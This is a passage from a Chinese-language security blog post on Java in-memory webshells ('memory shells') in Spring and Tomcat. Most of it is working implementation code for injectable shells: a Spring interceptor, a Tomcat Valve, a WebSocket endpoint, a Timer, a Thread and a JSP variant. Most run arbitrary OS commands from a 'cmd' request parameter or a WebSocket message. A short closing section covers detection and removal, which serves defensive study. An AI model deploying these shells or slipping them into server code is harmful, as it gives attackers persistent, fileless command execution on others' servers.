        java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        field.setAccessible(true);
        java.util.ArrayList<Object> adaptedInterceptors = (ArrayList<Object>) field.get(mapping);
        adaptedInterceptors.add(evilInterceptor.getInterceptor());
    }
```
```java
package springweb.beans;

import org.springframework.web.servlet.HandlerInterceptor;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;
import java.util.Scanner;

public class evilInterceptor {
    public static HandlerInterceptor getInterceptor(){
        return new HandlerInterceptor() {
            @Override
            public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
                String cmd = request.getParameter("cmd");
                PrintWriter writer = response.getWriter();
                if (cmd != null) {
                    String o = "";
                    ProcessBuilder p;
                    if (System.getProperty("os.name").toLowerCase().contains("win")) {
                        p = new ProcessBuilder("cmd.exe", "/c", cmd);
                    } else {
                        p = new ProcessBuilder("/bin/sh", "-c", cmd);
                    }
                    Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
                    o = c.hasNext() ? c.next() : o;
                    c.close();
                    writer.write(o);
                    writer.flush();
                    writer.close();
                } else {
                    response.sendError(404);
                }
                return true;
            }
        };
    }
}

```

### Tomcat Valve
Tomcat Valve是指在tomcat中pipline的一个个处理模块,在Tomcat中分为四个容器Engine,Host,Context,Wrapper,其都继承于基础容器类`ContainerBase`,而`ContainerBase`則是原始`Container`接口的实现类,而pipline的作用就是将这个四个容器连接起来,当一个请求到达时,依次将该请求通过pipline传递各个容器进行处理最后返回,而Valve就是pipline内部的一个组件,可以对传递的reqeust进行额外的逻辑处理,而且四个容器使用的是同一个pipline,所以在任意一个容器内都可以访问到pipline的Valve,同样的Tomcat也提供了添加valve的功能,所以则可以同添加恶意的valve实现类到pipline中,在每一个请求进入时执行恶意代码.  
#### Pipeline
Pipeline的定义位于`org/apache/catalina/Pipeline.java`.  
  
其定义了相关对Valve的增删查和获取当前container的接口,而其实现也只有一个即`StandardPipeline`,这就是负责传递请求的pipline实现类了.  
其对添加Valve的实现如下,其会将添加的Valve放到当前容器pipline的最后.  
  
#### ContainerBase#addValve  
而如何得到Pipeline对象呢,在每个容器中,其含有一个pipeline属性,其就存放了当前的pipline对象,同时在`ContainerBase`提供了`addValve`方法,会调用自身pipline的addValve方法.  
  
#### 实现思路
1. 实现一个Valve类.  

Valve类的定义如下  
  
实现其invoke方法即可在请求进行处理.  

2. 获取当前的Container,调用其addValve方法添加Valve,注入内存马.
#### 实现代码
```java
package org.example.Servlets;

import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

public class ValueServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        EvilValve evilValve = new EvilValve();
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        standardContext.addValve(evilValve);
        resp.getWriter().println("Valve added");
    }
}
```
```java
package org.example.Servlets;

import org.apache.catalina.Valve;
import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;

import java.io.IOException;
import java.io.PrintWriter;
import java.util.Scanner;

public class EvilValve implements Valve {
    @Override
    public Valve getNext() {
        return null;
    }

    @Override
    public void setNext(Valve valve) {

    }

    @Override
    public void backgroundProcess() {

    }

    @Override
    public void invoke(Request request, Response response) throws IOException {
        String cmd = request.getParameter("cmd");
        PrintWriter writer = response.getWriter();
        if (cmd != null) {
            String o = "";
            ProcessBuilder p;
            if (System.getProperty("os.name").toLowerCase().contains("win")) {
                p = new ProcessBuilder("cmd.exe", "/c", cmd);
            } else {
                p = new ProcessBuilder("/bin/sh", "-c", cmd);
            }
            Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
            o = c.hasNext() ? c.next() : o;
            c.close();
            writer.write(o);
            writer.flush();
            writer.close();
        } else {
            response.sendError(404);
        }
    }

    @Override
    public boolean isAsyncSupported() {
        return false;
    }
}

```  
  

### Tomcat WebSocket
WebSocket是一种全双工通信协议，即客户端可以向服务端发送请求，服务端也可以主动向客户端推送数据,将通信端点抽象成类，就是Endpoint,在Tomcat中也实现了对Websocket协议的支持.在7.0.47以前,Tomcat使用的是自己的相关标准,在之后则是使用的JSR356标准,而JSR356标准即Websocket的编程规范.  

Tomcat在启动时会StandardContext的startInternal方法里通过 WsSci 的onStartup方法初始化 Listener 和 servlet，再扫描 classpath下带有注解@ServerEndpoint的类和Endpoint子类调用addEndpoint方法加入websocket服务.  
  
而sc即是WsServerContainer对象.
#### 生命周期
在WebSocket进行信息通信的过程中有以下几个生命周期.  
* @OnOpen 建立连接时触发。
* @OnClose 关闭连接时触发。
* @OnError 发生异常时触发。
* @OnMessage 接收到消息时触发。  
  
而我们注入内存马的地方就是重写其中的方法来执行shell代码.
#### 使用方式
在Tomcat中有两种方式定义一个处理WebSocket协议的类,一是通过`@ServerEndpoint`注解,二是实现一个继承于Endpoint类的子类. 
##### 注解  
注解方法官方参考:https://docs.oracle.com/javaee/7/api/javax/websocket/server/ServerEndpoint.html    
一个@ServerEndpoint注解应该有以下元素：

* value：必要，String类型，此Endpoint部署的URI路径。
* configurator：非必要，继承ServerEndpointConfig.Configurator的类，主要提供ServerEndpoint对象的创建方式扩展（如果使用Tomcat的WebSocket实现，默认是反射创建ServerEndpoint对象）。
* decoders：非必要，继承Decoder的类，用户可以自定义一些消息解码器，比如通信的消息是一个对象，接收到消息可以自动解码封装成消息对象。
* encoders：非必要，继承Encoder的类，此端点将使用的编码器类的有序数组，定义解码器和编码器的好处是可以规范使用层消息的传输。
subprotocols：非必要，String数组类型，用户在WebSocket协议下自定义扩展一些子协议。

##### 继承
继承于Endpoint类的子类的方式需要重写几个生命周期方法,比注解更麻烦.
#### 实现思路
实现的思路类似,获取到WsServerContainer对象,调用其addEndpoint方法将我们的恶意Endpoint添加进去即可.
#### 实现代码
```java
package org.example.Servlets;


import javax.websocket.OnMessage;
import javax.websocket.Session;
import javax.websocket.server.ServerEndpoint;
import java.io.IOException;
import java.util.Scanner;


@ServerEndpoint("/ws/shell")
public class EvilEndpoint {
    @OnMessage
    public void processGreeting(String message, Session session) throws IOException {
        if (message != null) {
            String o = "";
            ProcessBuilder p;
            if (System.getProperty("os.name").toLowerCase().contains("win")) {
                p = new ProcessBuilder("cmd.exe", "/c", message);
            } else {
                p = new ProcessBuilder("/bin/sh", "-c", message);
            }
            Scanner c = new Scanner(p.start().getInputStream()).useDelimiter("\\A");
            o = c.hasNext() ? c.next() : o;
            c.close();
            session.getBasicRemote().sendText(o);
        } else {
            session.getBasicRemote().sendText("404");
        }
    }
}

```
```java
package org.example.Servlets;

import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.websocket.DeploymentException;
import javax.websocket.server.ServerContainer;
import java.io.IOException;
import java.lang.reflect.Field;

public class WebSocketServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext standardContext = null;
        while (standardContext ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    standardContext = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
        ServerContainer container = (ServerContainer)servletContext.getAttribute(ServerContainer.class.getName());
        try {
            container.addEndpoint(EvilEndpoint.class);
            resp.getWriter().println("Inject WebSocket Shell success");
        } catch (DeploymentException e) {
            throw new RuntimeException(e);
        }
    }
}

```
  
## JAVA Agent
利用Instrumentation提供的retransform或redefine来动态修改JVM中class,实现在一些通用class中修改字节码插入自己的恶意代码,原理和手法其实和RASP的实现一样,只不过hook的时候植入的代码不再是检测代码而是恶意代码,但这种方法相比于其它方法不确定性较高,因为如果代码有问题和环境不兼容的话可能直接导致环境挂掉.   
## Timer
java.util.Timer类是java中的一个定时器类,每一个定时器类对象都对应一个后台的线程,用于执行定时器类中的队列任务,所以利用该类则也可以创建一种在后台持续执行的后门.  
  
通过其构造函数可以发现可以创建使用守护线程或者非守护线程的计时器对象,通过创建一个非守护线程来执行恶意代码,那么就算用来注入的servlet或者jsp文件被杀掉了,执行恶意代码的Timer对象仍然在后台继续运行.   
通过Timer对象的schdule方法就可以传入一个TimerTask类对象在指定的时间后执行,其有几个重载方法,通过指定第三个period参数即可实现重复执行的效果.  
  
而TimerTask是一个接口,我们只要实现其run方法加入恶意代码即可.  
  
### 实现思路
1. 实现一个TimerTask子类,在run方法中植入恶意代码.
2. 创建非守护线程的Timer对象,调用schdule方法指定恶意的TimerTask子类.
3. 恶意代码在后台的单独线程中持续执行直到JVM退出或调用cancel方法取消.
### 实现代码
```java
package org.example.Servlets;

import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.util.TimerTask;

public class TimerServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        java.util.Timer executeSchedule = new java.util.Timer("shellTimer",false);
        TimerTask timerTask = new TimerTask() {
            @Override
            public void run() {
                        try {
                            Runtime.getRuntime().exec("calc.exe");
                        } catch (Exception e) {
                            e.printStackTrace();
                    }
                }
            };
        executeSchedule.schedule(timerTask,0,10000);
    }
}
```
动态获取命令参数思路可以考虑从线程中获取request请求,获取指定header的参数值,执行命令.
## Thread
从Timer内存马的思路中其实可以看到实质就是在后台单独起了一个非守护线程,在后台独立运行,将shell代码从当前的servlet中脱离出去,所以线程类内存马的思路其实直接创建一个单独的非守护线程执行恶意代码或者创建一个与jvm主线程绑定的守护线程即可.
### 实现代码
```java
package org.example.Servlets;

import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;

public class ThreadServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        while (!group.getName().equals("system")) {
            group = group.getParent();
        }
        Thread d = new Thread(group, new Runnable() {
            public void run() {
                while (true) {
                    try {
                        Runtime.getRuntime().exec("calc.exe");
                        Thread.sleep(100);
                    } catch (Exception ignored) {
                    }
                }
            }
        }, "shell Thread", 0);
        d.setDaemon(true);
        d.start();
    }
}

```
## JSP  
JSP文件作为一种特殊的servlet,其执行的过程比正常的servlet要多一些步骤,在请求jsp文件时,首先tomcat会查看该jsp是否被编译,如果没有的话则将jsp中的代码编译为class文件,然后会存放一组路径和该class文件中的servlet处理的映射关系在Context中,后续再次请求该Jsp文件时,则检查jsp文件是否存在是否被修改需要重新编译,然后再执行对应的servlet逻辑.  
而Jsp内存马的思路就是即使jsp文件被删除,但我们仍然能够通过该jsp的路径执行其中的sevlet代码
### 实现思路
通过jsp的执行过程可以有以下思路.
* 让tomcat接受到请求后不去检查JSP文件是否存在.
* 让tomcat接受到请求后认为jsp文件没有发生任何改变.  

细节可参考:  
https://xz.aliyun.com/t/10372#toc-3  
https://www.anquanke.com/post/id/224698#h2-0  
### 实现代码
```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.mapper.MappingData" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="org.apache.jasper.EmbeddedServletOptions" %>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();

    //从request对象中获取request属性
    Field requestF = request.getClass().getDeclaredField("request");
    requestF.setAccessible(true);
    Request req = (Request) requestF.get(request);
    //获取MappingData
    MappingData mappingData = req.getMappingData();
    //获取Wrapper
    Field wrapperF = mappingData.getClass().getDeclaredField("wrapper");
    wrapperF.setAccessible(true);
    Wrapper wrapper = (Wrapper) wrapperF.get(mappingData);
    //获取jspServlet对象
    Field instanceF = wrapper.getClass().getDeclaredField("instance");
    instanceF.setAccessible(true);
    Servlet jspServlet = (Servlet) instanceF.get(wrapper);
    //获取options中保存的对象
    Field Option = jspServlet.getClass().getDeclaredField("options");
    Option.setAccessible(true);
    EmbeddedServletOptions op = (EmbeddedServletOptions) Option.get(jspServlet);
    //设置development属性为false
    Field Developent = op.getClass().getDeclaredField("development");
    Developent.setAccessible(true);
    Developent.set(op, false);
%>
```
## 查杀
直到各种内存马的原理,查杀的思路就是针对各种类型的内存马检查其修该的属性或者字节码是否异常结合内存马无文件的特性查看是否有对应的class文件进行人工判断,
### 检查防御 
#### Hook动态添加调用
对容器提供的动态添加特性方法进行Hook检测,但该思路容易被绕过,很多时候注入内存马的时候可以直接通过反射来修改最后相关的属性值,而不是必须调用容器提供的方法,但可以考虑对关键属性进行监听(比如Servlet内存马会修改servletContext属性,Filter等类似).
#### Dump Class  
针对Servlet和Filter,Listener内存马的思路即是遍历出内存中StandardContext存储的所有Filter和Servlet,Listener根据内存马没有文件的特性或者是通过漏洞注入的话ClassLoader不是常规ClassLoader来排查.  
* 正常bootstrap class loader的result是null，而内存马一般使用了自定义Loader，其result不是null。
```java
xxx.class.getClassLoader() == null
```

* 正常class在硬盘上都有对应的文件，如果该class找不到文件则可能是内存马。
```java
private static boolean classFileIsExists(Class clazz){
    if(clazz == null){
        return false;
    }
    String className = clazz.getName();
    String classNamePath = className.replace(".","/")+".class";
    URL is = clazz.getClassLoader().getResource(classNamePath);
    if(is == null){
        return false;
    }else{
        return true;
    }
}
```

参考: https://github.com/c0ny1/java-memshell-scanner  
#### Agent马
通过sa-jdi.jar可以得到被加载并被java Instrumentation修改后的类,然后将其dump到class文件中进行分析.  
### 清除
非Agent马:从系统中移除该对象。  
针对Agent内存马:通过javaassist来得到磁盘上被修改类的原Class文件,同样利用Agent技术将相关字节码进行还原即可.  

## 参考
https://su18.org/post/memory-shell/  
https://su18.org/post/memory-shell-2/  
https://mp.weixin.qq.com/s/NKq4BZ8fLK7bsGSK5UhoGQ  
https://xz.aliyun.com/t/7388  
https://www.anquanke.com/post/id/198886#h2-14  
https://www.cnblogs.com/coldridgeValley/p/5816414.html  
https://xz.aliyun.com/t/11566#toc-1  
https://github.com/veo/wsMemShell  
https://xz.aliyun.com/t/10372  
https://www.anquanke.com/post/id/224698  
https://mp.weixin.qq.com/s/Whta6akjaZamc3nOY1Tvxg#at